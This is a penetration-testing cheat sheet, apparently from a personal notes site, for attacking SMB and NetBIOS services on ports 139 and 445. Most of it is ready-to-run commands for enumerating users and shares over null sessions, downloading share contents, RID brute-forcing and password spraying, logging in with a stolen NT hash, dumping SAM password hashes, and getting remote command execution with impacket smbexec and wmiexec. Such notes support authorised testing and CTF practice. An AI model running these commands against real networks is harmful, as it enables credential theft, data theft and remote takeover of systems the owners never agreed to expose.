 +++
title = "Pentest - SMB p 139,445"
author = ["svejk"]
tags = ["crackmapexec", "smbmap", "smb", "pentest"]
draft = false
+++

[HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)


## Port 139 [NetBIOS]({{< relref "netbios.md" >}}) {#port-139-netbios--netbios-dot-md}

<span class="underline">NetBIOS</span> is `Network Basic Input Output System`, which is a software protocol that allows applications, PCs, and Desktops on a local area network (LAN) to communicate with network hardware and to transmit data across the network.


## Port 445 [SMB - Server Message Block]({{< relref "smb_server_message_block.md" >}}) {#port-445-smb-server-message-block--smb-server-message-block-dot-md}

While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. SMB stands for ‘Server Message Blocks’.


### SMB {#smb}

Server Message Block (SMB) is a client-server protocol that regulates access to files and entire directories and other network resources such as printers, routers, or interfaces released for the network.


## Server Enumeration {#server-enumeration}

Search for hosts:

```shell { linenos=true, linenostart=1 }
nbtscan -r 192.168.1.1/24
```


### SMB information {#smb-information}

```shell { linenos=true, linenostart=1 }
enum4linux -a [-u "<username>" -p "<passwd>"] <IP>
enum4linux-ng -A [-u "<username>" -p "<passwd>"] <IP>

# connect to rpc
rpcclient -U "" -N <IP> #No creds
rpcclient //machine.htb -U domain.local/USERNAME%754d87d42adabcca32bdb34a876cbffb  --pw-nt-hash
rpcclient -U "username%passwd" <IP> #With creds
```

```sh
smbclient //10.10.10.10/Public -U 'anonymous' -N
smbclient -L //dc01.coder.htb -U Guest
```

```shell { linenos=true, linenostart=1 }
nxc smb $IP -u 'user.name' -p 'password'
```

See also impacket: samrdump, rpcdump


### Users, Groups {#users-groups}

```shell { linenos=true, linenostart=1 }
crackmapexec smb 10.10.10.10 --users [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 --groups [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 --groups --loggedon-users [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 -u usernames.txt -p ‘’ --continue-on-success


ldapsearch -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "(&(objectclass=user))" -h 10.10.10.10 | grep -i samaccountname: | cut -f 2 -d " "

```


### Anonymous logon {#anonymous-logon}

```sh
crackmapexec smb <host> -u 'a' -p '' --shares
```


### List files {#list-files}

```sh
crackmapexec smb <host> -u 'a' -p '' -M spider_plus
```


### Download files {#download-files}

```sh
crackmapexec smb <host> -u 'a' -p '' -M spider_plus -o DOWNLOAD_FLAG=TRUE EXCLUDE_DIR=IPC$
```


### IPC$ Share {#ipc-share}

With an anonymous null session you can access the IPC$ share and interact with services exposed via named pipes. The enum4linux utility within Kali Linux is particularly useful; with it, you can obtain the following:

-   Operating system information
-   Details of the parent domain
-   A list of local users and groups
-   Details of available SMB shares
-   The effective system security policy

RID cycling with `crackmapexec`

```shell { linenos=true, linenostart=1 }
crackmapexec smb <ip> -u 'a' -p '' -d <domain> --rid-brute |grep User
```

then, eg, check for UF_DONT_REQUIRE_PREAUTH and [AS-REP Roasting]({{< relref "as_rep_roasting.md" >}}). Then attempt `crackmapexec` with smb and username password combinations.  Passwords from list (eg rockyou), customized list, usernames as passwords (backwards and forwards, case change, etc).


### SMB Command Execution {#smb-command-execution}

```shell { linenos=true, linenostart=1 }
impacket-smbexec administrator:'<password>'@machine.htb
```


#### Dump sam hashes {#dump-sam-hashes}

```shell { linenos=true, linenostart=1 }
crackmapexec smb <IP> -u <username> -p "PASSWORD" --sam
```


#### wmiexec {#wmiexec}

```shell { linenos=true, linenostart=1 }
impacket-wmiexec <user>@<ip> -hashes "<user hash>"
```
